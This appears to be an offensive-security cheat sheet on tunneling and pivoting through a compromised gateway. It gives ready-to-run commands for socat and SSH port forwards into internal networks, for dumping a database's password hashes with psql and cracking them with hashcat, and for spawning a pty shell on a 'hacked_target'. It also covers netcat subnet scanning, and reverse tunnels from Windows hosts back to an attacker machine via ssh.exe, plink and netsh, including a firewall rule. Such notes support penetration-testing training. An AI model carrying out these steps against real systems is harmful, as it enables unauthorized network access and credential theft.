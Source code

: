 # Tunneling

## Port forwarding

### Socat

| WAN | DMZ | Inside LAN |
|-----|-----|------------|
| Kali | Gateway | DB |
| IpAttacker | IpDmzOut - IpDmzIn | IpDbDeepIn |

Run a Socat tunnel on the gateway to the database:
```
gateway$ socat -ddd TCP-LISTEN:2345,fork TCP:DbHostIP:5432
```
and connect to the DB directly from Kali (and retrieve password hashes):
```
kali$ psql -h GatewayIP -p 2345 -U postgres
> \l
> \c mydb
> select table_schema,table_name from information_schema.tables where table_name like '%user%;
> select * from user_table
> \o hashes.txt
> select t1.id,t1.user_name,t2.password_hash from user_table as t1 inner join credential_table as t2 on t1.id = t2.user_id;
> \o
> \q
```
Crack the hashes:
```
kali$ hashcat -m 12001 hashes.txt /usr/share/wordlists/fasttrack.txt # Atlassian hashcat code: hashcat -h
kali$ vim afterhashcat.txt # copy-paste the lines which have been cracked
kali$ tr -d ' ' hashes.txt | awk -F'|' '(NR >2) {print $2, $17}' > loginpass.txt
kali$ vim loginpass.txt # clean ?
kali$ awk -F' ' '{a[$1]=a[$1]?a[$1]":"$2:$2":"$1;}END{for (i in a) print a[i];}' loginpass.txt afterhashcat.txt | awk -F ':' '$3 {print $1, $3}' > final.txt
```

Notes:
- Confluence config file: `/var/atlassian/application-data/confluence/confluence.cfg.xml`
- Awk tips: https://www.theunixschool.com/2012/06/awk-10-examples-to-group-data-in-csv-or.html

Tunnel for an SSH connection: `socat -ddd TCP-LISTEN:2222,fork TCP:DbHostIp:22`

### Ssh

| WAN | DMZ | Inside LAN - subnet 1 | Inside LAN - subnet 2 |
|-----|-----|------------|------|
| Kali | Gateway | DB | Windows |
| IpAttacker | IpDmzOut - IpDmzIn | IpDbOut - IpDbIn | IpWindows |

TTY functionalities with Python:
```
hacked_target$ python3 -c 'import pty; pty.spawn("/bin/sh")'
hacked_target$ python3 -c 'import pty; pty.spawn(["env","TERM=xterm-256color","/bin/bash","--rcfile", "/etc/bash.bashrc","-i"])'
```

Netcat port discovery:
```
hacked_target$ for i in $(seq 1 254) ; do nc -zv -w 1 ${subnet}.${i} $Port; done # listen, verbose, timeout 1sec
```

Ssh forward tunnel:
```
DmzHost$ ssh -N -L 0.0.0.0:$PortDmzOut:$IpWindows:$PortWindows user@$IpDbOut
Kali$ smbclient -p $PortDmzOut -L //$IpDmzOut/ -U someuser --password=somepass
```

Ssh dynamic tunnel:
```
DmzHost$ ssh -N -D 0.0.0.0:$PortDmzOut user@$IpDbOut
Kali$ sudo vi /etc/proxychains4.conf
    socks5 $IpDmzOut $PortDmzOut
Kali$ proxychains smbclient -L //$IpWindows/ -U someuser --password=somepass
Kali$ proxychains nmap -vvv -sT --top-ports=20 -Pn $IpWindows
```

Ssh reverse tunnel:
```
ssh -N -R localhost:2345:$IpDmzIn:$PortDmzIn user@IpAttacker
```

### Windows

#### Ssh.exe

```
Windows PS> ssh.exe -N -R $ListeningPort user@$IpAttacker
Kali$ ss -lntpu # check
Kali$ vim /etc/proxychains4.conf
    socks5 127.0.0.1 $ListeningPort
Kali$ proxychains mycommand myoptions
```

#### Plink

```
KaliRshell$ cmdprompt> C:\path\to\plink.exe -ssh -l kaliuser -pw somepass -R 127.0.0.1:9833:127.0.0.1:3389 $IpAttacker
KaliRshell$ cmdprompt> KaliNormalShell$ ss -ntplu # check
Kali$ xfreerdp /u:rdp_user /p:rdp_pass /v:127.0.0.1:9833
```

#### Netsh

```
> netsh interface portproxy add v4tov4 listenport=2222 listenaddress=$IpDmzOut connectport=22 connectaddress=$IpDmzIn
> netstat -anp TCP | find "2222"
> netsh interface portproxy show all
> netsh advfirewall firewall add rule name="my_rule_name" protocol=TCP dir=in localip=$IpDmzOut localport=2222 action=allow
$ ssh user@$IpDmzOut -p2222
> netsh advfirewall firewall delete rule name="my_rule_name"
> netsh interface portproxy del v4tov4 listenport=2222 listenaddress=$IpDmzOut
> netsh interface portproxy show all
```



